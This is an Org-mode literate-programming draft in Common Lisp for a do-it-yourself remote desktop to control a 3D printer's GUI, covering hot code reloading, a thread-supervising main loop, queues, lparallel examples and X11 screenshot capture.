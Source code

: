 #+STARTUP: showall indent hidestars
#+HTML_HEAD: <link rel='stylesheet' type='text/css' href='./css/style.css'/>

* Intro

[[file:./img/rc-intro.png]]

How to control a 3D printer from the next room, if the "next room" can be in another country, and there is only a GUI application to control it?

Elementary! It is enough to put a laptop next to it, point the laptop camera at the working area, understand how to get images from the screen, and control the mouse and keyboard.

A kind of "remote desktop", made by your own hands.

* Decomposition

Split it to Client and Server.

Server:
- takes screenshots
- sends screenshots to the channel
- reads commands from the channel
- executes commands

Client:
- receives screenshots
- shows screenshots to the user (or even automatically analyzes screenshots to react to them)
- generates commands to send to the Server
- sends commands to the channel

Both the Client and the Server need to be able to establish a communication channel, maintain it, and minimize the size of the sent data by packing it.

The server must also be able to update itself "on the fly" when it receives appropriate commands from the Client.

The channel of communication does not necessarily exist permanently. Sometimes the connection may be unavailable. In this case, the Server must balance the strategy of "save as many screenshots as possible, and then send them when the connection is restored" with the strategy of minimizing the channel load.

For all such high-level decision, it is convenient to design a language in which to describe them. This language will be used so that the Client can change the behavior of the Server without having to patch it, which is fraught with bugs.

Basic commands:

#+BEGIN_SRC lisp
  (take-screenshot)
  (send-screenshot)
  (receive-command)
  (execute-command)

  (receive-screenshot)
  (show-screenshot)
  (make-command)
  (send-command)

  (open-connection)
  (close-connection)
#+END_SRC

Simplified workflow:

#+BEGIN_SRC plantuml :file ./img/rc-workflow.png
  hide empty description

  state Server {
      take_screenshot -right-> send_screenshot
      send_screenshot -right[dotted,#blue]-> snd_srv_queue
      send_screenshot -down-> receive_command
      rcv_srv_queue -left[dotted,#blue]-> receive_command
      receive_command -left-> execute_command
      execute_command -up-> sleep_server
      sleep_server -up-> take_screenshot
  }

  state Client {
      send_command -left[dotted,#blue]-> snd_clt_queue
      rcv_clt_queue -right[dotted,#blue]-> receive_screenshot
      receive_screenshot -right-> show_screenshot
      show_screenshot -down-> make_command
      make_command -left-> send_command
      send_command -up-> sleep_client
      sleep_client  -up-> receive_screenshot
  }

  snd_srv_queue -[#green]> rcv_clt_queue
  snd_clt_queue -left[#green]-> rcv_srv_queue
#+END_SRC

#+results:
[[file:./img/rc-workflow.png]]

[[file:./img/rc-workflow.png]]

* Unreliable delivery

If the connection is unstable, an attempt to send a screenshot may cause a hang state. A hung attempt to send has a state and takes up memory, so the Server needs a strategy to manage this. For example, the Server can kill hung send attempts if they don't finish successfully within maximum time. Or if there are too many hanged attempts - the Server may try to reconnect. It can be expressed like this:

#+BEGIN_SRC lisp
  (defun try-to-send-screenshot (screenshot-data)
    (let ((attempt (send-screenshot screenshot-data)))
      (push attempt *list-of-attempts*)
      (let ((current-time (get-internal-real-time))
            (failed-attempts-cnt 0))
        (dolist (attempt *list-of-attempts*)
          (when (> (+ (time-of-birth attemp) max-time) current-time)
            (dismiss attempt)))
        (dolist (attempt *list-of-attempts*)
          (when (equal :dismissed (status attemp))
            (incf failed-attempts-cnt)))
        (when (> kill-cnt max-failed-attempts)
          (try-to-reconnect)))))
#+END_SRC



#+BEGIN_SRC plantuml :file ./img/rc-attempt-strategy.png
  start
  :Attempt to send a screenshot;
  :Push attempt to list of attempts;

  #white:(A)

  group dismiss the hang-up attempts to send
    repeat
      :select the current attempt;
      if (does selected attempt exist longer than necessary?) then (yes)
        :dismiss current attempt;
      endif
    repeat while (do we still have any unprocessed attempts??) is (yes)
    ->no;
  end group

  #white:(B)

  group counting the number of dismissed attempts;
    repeat
      :select the current attempt;
      if (the selected attempt is in the state of being dismissed?) then (yes)
        :increase the counter of attempts in the dismissed state;
      endif
    repeat while (do we still have any unprocessed attempts??) is (yes)
    ->no;
  end group

  #white:(C)

  if (counter of attempts in the dismissed state too big?) then (yes)
    :try to reconnect;
  endif

  stop
#+END_SRC

#+results:
[[file:./img/rc-attempt-strategy.png]]

[[file:./img/rc-attempt-strategy.png]]

* Hot code reloading

The Client can send a command to the Server, which will redefine the strategy:

#+BEGIN_SRC lisp
  (send-command
   :hot-reload-code
   '(:name try-to-send-screenshot
     (lambda (screenshot-data)
       ...)))
#+END_SRC

This way, you can define only the functions needed to provide hot reloading code and add the rest through the reloading mechanism.

At this point, the only thing required of ~send-command~ is to throw parameters to ~hot-reload-code~:

Actually, ~send-command~ has to send a command to the communication channel, which doesn't exist yet, so now you can only define ~hot-reload-code~:

#+NAME: hot-reload-code
#+BEGIN_SRC lisp
  (defmacro hot-reload-code (name code)
    `(defparameter ,(intern (concatenate 'string "*" (symbol-name name) "*"))
                            ,code))
#+END_SRC

This function is very simple, it puts the result of the executed code in a variable with the appropriate name. The content of this variable can be replaced atomically during the next code reload. For example, this is how you can create a function in a *sub* variable that subtract up two numbers:

#+BEGIN_SRC lisp
  (hot-reload-code
   :sub
   (lambda (a b) (- a b)))
#+END_SRC

And it really works:

#+BEGIN_SRC lisp
  (funcall *sub* 6 3)
  => 3 (2 bits, #x3, #o3, #b11)
#+END_SRC

However, the benefit of functions is that they call each other, but as a result of uncoordinated hot restarts of the code when called, there may be errors.

Here we can use the ~safe-call~ macro helper, which provides error handling if there is a problem with the called function:

#+NAME: with_safe_call
#+BEGIN_SRC lisp
  (defmacro with-safe-call ((err-var &body err-handler)
                            func-var &rest params)
    `(handler-case
         (funcall
          ,(intern (concatenate  'string "*" (symbol-name func-var) "*"))
          ,@params)
       (t (,err-var) ,@err-handler)))
#+END_SRC

This macro helper turns a function call into an exception handler and illustrates the idea of "defensive programming":

#+BEGIN_SRC lisp
  (macroexpand-1
   '(with-safe-call (err (format nil "SAFE-CALL-ERROR: ~A" err))
     :div 12 3))

  =>
  (handler-case (funcall *div* 12 3)
    (t (err) (format nil "SAFE-CALL-ERROR: ~A" err)))
#+END_SRC

Now if we call the *DIV* function via SAFE-CALL, we will get an error handled, because the *DIV* variable has not yet been defined:

#+BEGIN_SRC lisp
  (with-safe-call (err (format nil "SAFE-CALL-ERROR: ~A" err))
                  :DIV 12 3)

  => "SAFE-CALL-ERROR: The variable *DIV* is unbound."
#+END_SRC

Now if you define *DIV*, the call will return the correct result:

#+BEGIN_SRC lisp
  (hot-reload-code
   :DIV
   (lambda (param-a param-b)
     (block div-ret-block
       (when (= 0 param-b)
         (error 'DIVISION-BY-ZERO))
       (let ((cnt 0))
         (loop while (>= param-a param-b)
               do (setf param-a
                        (with-safe-call
                            (err (format nil "ERR: ~A" err))
                            :SUB param-a param-b)
                        cnt (+ 1 cnt))
                  (unless (numberp param-a)
                    (return-from div-ret-block param-a)))
         cnt))))

  (with-safe-call (err (format nil "ERR: ~A" err))
                  :DIV 12 3)
  => 4 (3 bits, #x4, #o4, #b100)
#+END_SRC

Now, if I define a *DIV* which calls *SUB* to subtract the second parameter from the first parameter, the call will return the correct result.

The call is made through WITH-SAFE-CALL, so any error in the called function will be handled.

The calling function will only continue if there are no errors.

This way we can have erroneous functions in the hot code reload code process, but it will not cause a crash because all errors will be handled if any function that can be replaced is called with-safe-call

For example, if we try to divide by zero, we will get a division by zero error handled

#+BEGIN_SRC lisp
  (with-safe-call (err (format nil "ERR: ~A" err))
                  :DIV 1 0)
  => "ERR: arithmetic error DIVISION-BY-ZERO signalled"
#+END_SRC

The same happens if we remove the SUB variable, the DIV just can't find the function it depends on, but handles this situation correctly:

#+BEGIN_SRC lisp
  (unbound-variable  *sub*)

  (makunbound '*sub*)

  (with-safe-call (err (format nil "ERR: ~A" err))
                  :DIV 1 1)
  => "ERR: The variable *SUB* is unbound."
#+END_SRC

* Panic

When code is hot-reloaded, something can go wrong, and then continuing to work can have unpredictable consequences.

The program can detect an abnormal situation and to prevent a disaster go into "panic" mode.

When the ~*PANIC*~ flag is not NIL the program should not continue normal operation. Instead it should save what can be saved correctly if possible and proceed to the failure analysis and recovery procedures. For example, it could try to recover to the last working state, or do something else.

#+NAME: panic
#+BEGIN_SRC lisp
  (defparameter *PANIC* nil)
#+END_SRC

* Logging and debug print

In the simplest way, any errors should cause an error message to be sent to the console for debugging purposes. This is done using the ~DBG~ macro, which accepts the error message and parameters in FORMAT-style.

When you want to display something on the screen, for example an error message in a multithreaded program, the threads should not interfere with each other. So we use a mutex wrapped in the with-recursive-lock-held macro of the bordeaux-threads package. This package is used to manage threads.

A recursive lock differs from an ordinary lock in that a thread that already holds the recursive lock can acquire it again without blocking. The thread must then release the lock twice before it becomes available for another thread.

#+NAME: dbg
#+BEGIN_SRC lisp
  (defparameter *OUTLOCK*
    (bt:make-recursive-lock "output-lock"))

  (defmacro bprint (var)
    `(subseq (with-output-to-string (*standard-output*)
               (pprint ,var)) 1))

  (defmacro dbg (msg &rest params)
    "debug output with lock"
    `(bt:with-recursive-lock-held (*OUTLOCK*)
       (format t ,msg ,@params)
       (finish-output)))
#+END_SRC

* Main loop

When the Client or the Server starts up, it enters a (conditionally) infinite loop in which the PHOENIX, which we'll talk about in the next section, is started every *SLEEP-INTERVAL* seconds. It is started through the ~with-safe-call~ mechanism we just talked about.

To atomically break this infinite loop, the variable *MAIN-LOOP-STOP* is used, which must be equal to NIL as long as the loop has to run.

If it is not NIL, its contents will be executed through ~WITH-SAFE-CALL~ and this gives us a way to atomically update the whole world.

#+NAME: main_loop
#+BEGIN_SRC lisp
  (defparameter *WATCHDOG-TIMER* 0)
  (defparameter *MAIN-LOOP-STOP* nil)
  (defparameter *SLEEP-INTERVAL* 3)

  (defun main-loop ()
    (setf *WATCHDOG-TIMER* 0)
    (tagbody
     infinite
       (when *MAIN-LOOP-STOP*
         (with-safe-call
             (err
               (dbg "~%ERR: ~A Trying to stop the main loop." err))
             :MAIN-LOOP-STOP)
         (go end))
       (dbg "~%::main-loop WDG=~3,'0D" *WATCHDOG-TIMER*)
       (with-safe-call (err (dbg "~%ERR: ~A" err))
                       :PHOENIX)
       (sleep *SLEEP-INTERVAL*)
       (incf *WATCHDOG-TIMER*)
       (go infinite)
     end
       (dbg "~%::the MAIN-LOOP is correctly terminated")))
#+END_SRC

Activity Diagram:

#+BEGIN_SRC plantuml :file ./img/rc-main-loop.png
  start
  :clear WATCHDOG_TIMER value;
  while (MAIN_LOOP_STOP is clear?) is (Yes)
     :debug print WATCHDOG_TIMER value;
     :try to call PHOENIX;
     :increment WATCHDOG_TIMER value;
  endwhile
  :try to call MAIN_LOOP_STOP;
  :debug print exit message;
  stop
#+END_SRC

#+results:
[[file:./img/rc-main-loop.png]]

[[file:./img/rc-main-loop.png]]

* Minimal tangled program

Now you can build a minimal working program:

#+NAME: min
#+BEGIN_SRC lisp :tangle ./src/min.lisp :noweb yes :exports code
  (ql:quickload "alexandria")
  (use-package :alexandria)
  (ql:quickload "cl-ppcre")
  (use-package :ppcre)
  (ql:quickload "bordeaux-threads")

  <<panic>>

  <<dbg>>

  <<with_safe_call>>

  <<main_loop>>
#+END_SRC

If you run ~main-loop~ this minimal program will start.

Every 3 seconds it will try to safely run *PHOENIX*, which doesn't exist yet, get an error here and start again until we get tired of it and change the value of the *MAIN-LOOP-STOP* variable to T for example.

Then the program will try to execute *MAIN-LOOP-STOP*, get an error and exit correctly.

#+BEGIN_SRC lisp
  ::main-loop WDG=000
  ERR: The variable *PHOENIX* is unbound.
  ::main-loop WDG=001
  ERR: The variable *PHOENIX* is unbound.
  ::main-loop WDG=002
  ERR: The variable *PHOENIX* is unbound.
  ::main-loop WDG=003
  ERR: The variable *PHOENIX* is unbound.
  ::main-loop WDG=004
  ERR: The variable *PHOENIX* is unbound.
  ERR: The function COMMON-LISP:T is undefined. Trying to stop the main loop.
  ::the main-loop is correctly terminated
#+END_SRC

* Phoenix

So, the ~MAIN-LOOP~ synchronously starts the ~PHOENIX~ and then goes to sleep so as not to waste CPU time waiting.

This means that ~PHOENIX~ must complete its tasks and die quickly. After a sleep, the ~PHOENIX~ will be revived from the ashes and do its job again.

What tasks does the ~PHOENIX~ perform?

He creates the threads and controls them. Threads do all the dirty work, deal with unstable network connections, and are prone to hang-ups. If ~PHOENIX~ has reason to suspect that a thread is hanging, ~PHOENIX~ should kill the thread.

~PHOENIX~ is very suspicious; he doesn't trust threads that run too long. ~PHOENIX~ only likes threads that behave like ~PHOENIX~ himself - doing their job quickly and dying.

To determine how long a thread lives, ~PHOENIX~ can analyze how familiar it is to him. If ~PHOENIX~ sees a familiar thread in each new life, ~PHOENIX~ understands that it has met that thread in past lives.

But it is possible to do the same thing in a more optimal way.

We can name threads so that their name contains the value of the watchdog timer when the thread starts. Then we can subtract the actual watchdog value and find out the age of the thread.

** Terminating long-lived threads

This can be expressed as a rule that will kill threads that live too long:

[TODO:gmm] - https://github.com/LispCookbook/cl-cookbook/issues/386

#+NAME: rule_of_killing_threads_by_time
#+BEGIN_SRC lisp
  (defmacro with-panic-safe-call (name &rest params)
    `(with-safe-call
         (err (progn
                (setf *PANIC* t)
                (dbg "~%ERR: ~A" err)))
         ,name
         ,@params))

  (defparameter *GET-THREAD-WDG-BY-NAME*
    (lambda (thread-name)
      "returns wdg value from thread-name or nil"
      (multiple-value-bind (match regs)
          (scan-to-strings "\.*\\s+wdg=([0-9]*)"
                           thread-name)
        (when match
          (parse-integer (aref regs 0))))))

  (defconstant +max-thread-age+ 5)

  (defparameter *rule-of-killing-threads-by-time*
    (lambda ()
      (loop :for thr :in (bt:all-threads) :do
        (let* ((wdg (with-panic-safe-call :GET-THREAD-WDG-BY-NAME
                      (bt:thread-name thr))))
          (unless (equal nil wdg)
            (let ((age  (- *WATCHDOG-TIMER* wdg)))
              (or (> 0 age) ;; overflow *watchdog-timer*
                  (> age +MAX-THREAD-AGE+)
                  (unless *PANIC*
                    (bt:destroy-thread thr)))))))))
#+END_SRC

Suppose we name threads as "thread-type-name wdg=123", where "123" is the value of ~*WATCHDOG-TIMER*~ at the moment when this thread was created. Then the ~GET-THREAD-WDG-BY-NAME~ helper function, when safely called, will return "12345" to us.

If the current value of ~*WATCHDOG-TIMER*~ reaches "129", it means that the thread has been alive for 6 epochs (i.e. PHOENIX has restarted 6 times). If ~MAIN-LOOP~ falls asleep for 3 seconds after a PHOENIX restart, it means that the thread is already alive for more than 6*3=18 seconds, which is clearly more it should be.

So the ~RULE-OF-KILLING-THREADS-BY-TIME~ procedure should kill this thread if it sees that it lives more than ~+MAX-THREAD-AGE+~ epochs. [TODO:gmm] - What happens if the thread being killed is holds a lock?

It is also possible that ~*WATCHDOG-TIMER*~ is less than the value returned by ~GET-THREAD-WDG-BY-NAME~. It is possible when ~*WATCHDOG-TIMER*~ overflows and we kill all such threads without waiting until ~*WATCHDOG-TIMER*~ becomes big enough to keep a thread alive longer than expected.

The same mechanism (resetting ~*WATCHDOG-TIMER*~) can be used to restart all the threads.

[TODO:gmm] - We can also provide a negative value of ~*WATCHDOG-TIMER*~ to use it for something else, like recovering from a panic.

We will go into a panic state if, for example, when trying to call the ~GET-THREAD-WDG-BY-NAME~ procedure safely, it is found that this variable does not exist.

** Creating new threads

Now we have to make up for the lost threads somehow. To do this we will write a rule that will create missing threads if their number is less than ~+MIN-THREAD-POOL-SIZE+~

#+NAME: rule_of_creating_new_threads
#+BEGIN_SRC lisp
  (defparameter *WORKING-THREAD-STOP-FLAG* nil)

  (defparameter *WORKING-THREAD-FUNC*
    (lambda ()
      (let ((work-cnt 0)
            (work-cnt-max (random 40)))
        (tagbody
         work-repeat
           (when *WORKING-THREAD-STOP-FLAG*
             (go work-exit))
           (when (> work-cnt work-cnt-max)
             (go work-exit))
           (sleep 1)
           (go work-repeat)
         work-exit))))

  (defconstant +MIN-THREAD-POOL-SIZE+ 3)

  (defparameter *RULE-OF-CREATING-NEW-THREADS*
    (lambda ()
      (let ((working-threads-cnt 0))
        (loop :for thr :in (bt:all-threads) :do
          (let* ((wdg (with-panic-safe-call
                        :get-thread-wdg-by-name
                        (bt:thread-name thr))))
            (unless (equal nil wdg)
              (incf working-threads-cnt))))
        (when (> +MIN-THREAD-POOL-SIZE+ working-threads-cnt)
          (dotimes (idx (- +MIN-THREAD-POOL-SIZE+
                           working-threads-cnt))
            (bt:make-thread
             #'(lambda ()
                 (with-panic-safe-call
                   :WORKING-THREAD-FUNC))
             :name (format nil "++(~A)working-thread wdg=~D"
                           idx *WATCHDOG-TIMER*)
             :initial-bindings
             `((*standard-output* . ,*standard-output*)
               (*PANIC* . ,*PANIC*)
               (*working-thread-stop-flag* . ,*working-thread-stop-flag*))))))))

  ;; (funcall *rule-of-creating-new-threads*)

  ;; (bt:all-threads)

  ;; =>
  ;; #<SB-THREAD:THREAD "main thread" RUNNING {1001838103}>
  ;; #<SB-THREAD:THREAD "Swank Sentinel" RUNNING {10019B0AF3}>
  ;; #<SB-THREAD:THREAD "control-thread" RUNNING {1001BEE4E3}>
  ;; #<SB-THREAD:THREAD "swank-indentation-cache-thread" RUNNING {1001BEEC03}>
  ;; #<SB-THREAD:THREAD "reader-thread" RUNNING {1004E62FE3}>
  ;; #<SB-THREAD:THREAD "++(1)working-thread wdg=0" RUNNING {1003631073}>
  ;; #<SB-THREAD:THREAD "++(2)working-thread wdg=0" RUNNING {1003631383}>
  ;; #<SB-THREAD:THREAD "repl-thread" RUNNING {1002BB9DC3}>
  ;; #<SB-THREAD:THREAD "worker" RUNNING {10036402F3}>
  ;; #<SB-THREAD:THREAD "++(3)working-thread wdg=0" RUNNING {1003631693}>
  ;; #<SB-THREAD:THREAD "++(0)working-thread wdg=0" RUNNING {1003630C03}>
  ;; #<SB-THREAD:THREAD "auto-flush-thread" RUNNING {1004E62F53}>

#+END_SRC

** Rule-processor

Now that we have at least two rules for creating and deleting threads, we can build a list of rules.

This is very important, because the contents of the list of rules (and the order of the rules in the list) will determine the logic of the whole program.

#+NAME: rulez
#+BEGIN_SRC lisp
  (defclass rulez ()
    ((lst :initarg :lst)))

  (defparameter *LIST-OF-RULES*
    (make-instance 'rulez
                   :lst `(*rule-of-killing-threads-by-time*
                          ,*rule-of-creating-new-threads*)))

  (defmethod run ((rlz rulez))
    (loop for rule in (slot-value *list-of-rules* 'lst) :do
      (funcall (symbol-value rule))))
#+END_SRC

** Minimal Phoenix program

Now if we add phoenix to the minimal program obtained in the previous step, we get a thread supervisor that creates and removes threads as they exceed the maximum running time

#+BEGIN_SRC plantuml :file ./img/main_loop_and_phoenix_activity.png
  |MAIN_LOOP|
    start
    :clear WATCHDOG_TIMER value;
    while (MAIN_LOOP_STOP is clear?) is (Yes)
       :debug print WATCHDOG_TIMER value;
       :try to call PHOENIX;

       if (PHOENIX is exists?) is (exists) then
  |#AntiqueWhite|PHOENIX|
       :rule of killing threads by time;
       :rule of creating new threads;
  |MAIN_LOOP|
       else (not exists)
       endif

       :increment WATCHDOG_TIMER value;
    endwhile
    :try to call MAIN_LOOP_STOP;
    :debug print exit message;
    stop
#+END_SRC

#+results:
[[file:./img/main_loop_and_phoenix_activity.png]]

[[file:./img/main_loop_and_phoenix_activity.png]]


#+NAME: min_phoenix
#+BEGIN_SRC lisp :tangle ./src/min_phoenix.lisp :noweb yes :exports code
  <<min>>

  <<rule_of_killing_threads_by_time>>

  <<rule_of_creating_new_threads>>

  <<rulez>>

  (defparameter *phoenix*
    (lambda ()
      (run *list-of-rules*)))

  ;; (main-loop)

  ;; (bt:all-threads)
#+END_SRC

* Queues and locks

Now that Phoenix controls the threads, it's impossible to predict when a thread will be killed because it takes too long to fiddle with its bit of work.

To manage this we can have three queues: ~TODO~, ~IN-PROGRESS~, and ~DONE~ to keep track of the state of the work.

Since threads compete for jobs, we need to access these queues exclusively, with critical sections protected by mutexes - one mutex per queue

#+NAME: queue
#+BEGIN_SRC lisp
  (defclass queue ()
    ((lst   :initform  nil)
     (lock  :initarg   :lock)))

  (defmethod enque ((que queue) task)
    (bt:with-recursive-lock-held ((slot-value que 'lock))
      (setf (slot-value que 'lst)
            (append (slot-value que 'lst)
                    (list task)))))

  (defmethod deque ((que queue))
    (bt:with-recursive-lock-held ((slot-value que 'lock))
      (pop (slot-value que 'lst))))


  (defparameter *TODO*
    (make-instance
     'queue
     :lock (bt:make-recursive-lock "todo-lock")))

  (defparameter *IN-PROGRESS*
    (make-instance
     'queue
     :lock (bt:make-recursive-lock "in-progress-lock")))

  (defparameter *DONE*
    (make-instance
     'queue
     :lock (bt:make-recursive-lock "done-lock")))


  ;; (slot-value *TODO* 'lst)

  ;; (enque *TODO* 3)

  ;; (deque *TODO*)
#+END_SRC

* Tasks

[TODO:gmm] - Use LPARALEL https://lispcookbook.github.io/cl-cookbook/process.html#joining-on-a-thread-destroying-a-thread

Now we need to form tasks, which we will pass in the chain. Each task will capture the data it works with.

#+NAME: task
#+BEGIN_SRC lisp
  (defclass task ()
    ((initial :accessor initial)))
#+END_SRC

* Lparallel

#+BEGIN_SRC lisp
  (ql:quickload "lparallel")
  (ql:quickload "serapeum")
  (ql:quickload "bt-semaphore")
  (use-package :lparallel)
  (use-package :lparallel.queue)
  (use-package :bt-semaphore)

  (defun init ()
    (setf lparallel:*kernel*
          (lparallel:make-kernel (serapeum:count-cpus)
                                 :name "channel-queue-kernel")))
  (init)


  (defun shutdown ()
    (end-kernel :wait t))

  ;; (shutdown)

  (defun show-kernel-info ()
    (let ((name (lparallel:kernel-name))
          (count (lparallel:kernel-worker-count))
          (context (lparallel:kernel-context))
          (bindings (lparallel:kernel-bindings)))
      (format t "Kernel name = ~a~%" name)
      (format t "Worker threads count = ~d~%" count)
      (format t "Kernel context = ~a~%" context)
      (format t "Kernel bindings = ~a~%" bindings)))

  (show-kernel-info)


  (defun calculate-square (n)
    (let* ((channel (lparallel:make-channel))
           (res nil))
      (lparallel:submit-task channel
                             (lambda (x)
                               (* x x))
                             n)
      (setf res (lparallel:receive-result channel))
      (format t "Square of ~d = ~d~%" n res)))

  (calculate-square 25)


  (defun test-basic-channel-multiple-tasks ()
    (let ((channel (make-channel))
          (res '()))
      (submit-task channel (lambda (x)
                             (* x x))
                   10)
      (submit-task channel (lambda (y)
                             (* y y y))
                   10)
      (submit-task channel (lambda (z)
                             (* z z z z))
                   10)
      (dotimes (i 3 res)
        (push (receive-result channel) res))))

  (test-basic-channel-multiple-tasks)


  (defun test-promise ()
    (let ((p (promise)))
      (loop
        do (if (evenp (read))
               (progn
                 (fulfill p 'even-received!)
                 (return))))
      (force p)))

  (test-promise)


  (defun promise-with-threads ()
    (let ((p (promise))
          (stream *query-io*)
          (n (progn
               (princ "Enter a number: ")
               (read))))
      (format t "In main function...~A~%" p)
      (bt:make-thread
       (lambda ()
         (sleep (random 10))
         (format stream "Inside thread... fulfilling promise ~A~%" p)
         (fulfill p (* n n))))
      (bt:make-thread
       (lambda ()
         (loop
           when (fulfilledp p)
             do (return)
           do (progn
                (format stream "~d~%" (random 100))
                (sleep (* 0.01 (random 100)))))))
      (format t "Inside main function, received value: ~d~%" (force p))))

  (promise-with-threads)


  (defun test-future ()
    (let ((f (future
               (sleep (random 5))
               (print "Hello from future!"))))
      (loop
        when (fulfilledp f)
          do (return)
        do (sleep (* 0.01 (random 100)))
           (format t "~d~%" (random 100)))
      (format t "~d~%" (force f))))

  (test-future)


  (defun callback-promise-future-demo ()
    (let* ((p (promise))
           (stream *query-io*)
           (n (progn
                (princ "Enter a number: ")
                (read)))
           (f (future
                (sleep (random 10))
                (fulfill p (* n n))
                (force (future
                         (format stream "Square of ~d = ~d~%" n (force p)))))))
      (loop
        when (fulfilledp f)
          do (return (force p))
        do (sleep (* 0.01 (random 100))))))

  (callback-promise-future-demo)


  (defun list-of-promises-future-demo (n)
    (let* ((futures)
           (stream *query-io*))
      (dotimes (i n)
        (let* ((number (progn
                         (princ (format nil "~%Enter a number (~d): " i))
                         (read)))
               (promise (promise)))
          (push (future
                  (sleep (random 10))
                  (fulfill promise (* number number))
                  (force (future
                           (sleep 1)
                           (format stream "~%Square of ~d = ~d"
                                   number
                                   (force promise))
                           (force promise))))
                futures)))
      (loop
        do (sleep 1)
        until (loop for f in futures always (fulfilledp f))
        finally (return (loop for f in futures collect (force f))))))

  (list-of-promises-future-demo 3)


  (defun test-queue-properties ()
    (let ((queue (make-queue :fixed-capacity 5)))
      (loop
        when (queue-full-p queue)
          do (return)
        do (push-queue (random 100) queue))
      (print (queue-full-p queue))
      (loop
        when (queue-empty-p queue)
          do (return)
        do (print (pop-queue queue)))
      (print (queue-empty-p queue)))
    nil)

  (test-queue-properties)

  (defun test-basic-queue ()
    (let ((queue (make-queue))
          (channel (make-channel))
          (res '()))
      (submit-task channel
                   #'(lambda ()
                       (loop for entry = (pop-queue queue)
                             when (queue-empty-p queue)
                               do (return)
                             do (push (* entry entry) res))))
      (dotimes (i 100)
        (push-queue i queue))
      (receive-result channel)
      (format t "~{~d ~}~%" res)))

  (test-basic-queue)
#+END_SRC

* Screenshot

How to make screenshot:

#+NAME: x_snapshot
#+BEGIN_SRC lisp :padline no
  (ql:quickload "clx")
  (ql:quickload "zpng")

  (defmacro with-display (host (display screen root-window) &body body)
    `(let* ((,display (xlib:open-display ,host))
            (,screen (first (xlib:display-roots ,display)))
            (,root-window (xlib:screen-root ,screen)))
       (unwind-protect (progn ,@body)
         (xlib:close-display ,display))))

  (defmacro with-default-display ((display &key (force nil)) &body body)
    `(let ((,display (xlib:open-default-display)))
       (unwind-protect
            (unwind-protect
                 ,@body
              (when ,force
                (xlib:display-force-output ,display)))
         (xlib:close-display ,display))))

  (defmacro with-default-display-force ((display) &body body)
    `(with-default-display (,display :force t) ,@body))

  (defmacro with-default-screen ((screen) &body body)
    (let ((display (gensym)))
      `(with-default-display (,display)
         (let ((,screen (xlib:display-default-screen ,display)))
           ,@body))))

  (defmacro with-default-window ((window) &body body)
    (let ((screen (gensym)))
      `(with-default-screen (,screen)
         (let ((,window (xlib:screen-root ,screen)))
           ,@body))))

  (defun x-size ()
    (with-default-screen (s)
      (values
       (xlib:screen-width s)
       (xlib:screen-height s))))

  (defparameter *default-x* 0)
  (defparameter *default-y* 0)
  (defparameter *default-width* 800)
  (defparameter *default-height* 600)

  (defun init-defaults ()
    (multiple-value-bind (width height)
        (x-size)
      (setf *default-width* width
            ,*default-height* height
            ,*default-x* 0
            ,*default-y* 0)))

  (init-defaults)

  (defun raw-image->png (data width height)
    (let* ((png (make-instance 'zpng:png :width width :height height
                               :color-type :truecolor-alpha
                               :image-data data))
           (data (zpng:data-array png)))
      (dotimes (y height)
        (dotimes (x width)
          ;; BGR -> RGB, ref code: https://goo.gl/slubfW
          ;; diffs between RGB and BGR: https://goo.gl/si1Ft5
          (rotatef (aref data y x 0) (aref data y x 2))
          (setf (aref data y x 3) 255)))
      png))

  (defun x-snapshot (&key (x *default-x*) (y *default-y*)
                       (width  *default-width*) (height *default-height*)
                       path)
    ;; "Return RGB data array (The dimensions correspond to the height, width,
    ;; and pixel components, see comments in x-snapsearch for more details),
    ;; or write to file (PNG only), depend on if you provide the path keyword"
    (with-default-window (w)
      (let ((image
             (raw-image->png
              (xlib:get-raw-image w :x x :y y
                                  :width width :height height
                                  :format :z-pixmap)
              width height)
            ))
        (if path
            (let* ((ext (pathname-type path))
                   (path
                    (if ext
                        path
                        (concatenate 'string path ".png")))
                   (png? (or (null ext) (equal ext "png"))))
              (cond
                (png? (zpng:write-png image path))
                (t (error "Only PNG file is supported"))))
            ;; else - return image array
            (zpng:data-array image)))))

  (x-snapshot
   :path "x-snapshot-true-color-telegram.png")
#+END_SRC

* Conv8x8

После создания скриншота нам нужно уменьшить его до минимального размера (например, для передачи по сети, если это необходимо).

Для этого мы можем разбить скриншот на квадраты 8*8 пикселей. Большинство из таких квадратов будут содержать один цвет - мы предполагаем что такие квадраты содержа цвет фона. Они нам не интересны, т.к. мы предполагаем, что они не содержат полезной текстовой информации.

